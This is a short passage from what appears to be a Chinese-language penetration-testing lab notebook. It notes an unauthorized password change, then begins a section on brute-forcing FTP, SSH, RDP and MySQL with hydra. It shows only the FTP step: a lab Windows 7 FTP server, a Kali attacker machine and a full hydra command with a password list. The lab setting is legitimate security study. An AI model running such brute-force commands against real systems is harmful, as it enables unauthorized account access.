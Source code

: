 ![Alt text](image-30.png)
- 实现越权密码修改


## 4. 暴力破解
### 使用hydra实现对ftp、ssh、rdp、mysql的暴力破解
- ftp爆破
  - 搭建一个ftp服务在window7上
  - 然后再kali上使用hydra，配置好两台设备之间的网络
  - 在kali的命令行中输入
  ```
  hydra 192.168.0.92 ftp -l admin -P /home/zhangyifeng/桌面/test_passwd.txt -vV -f
  ```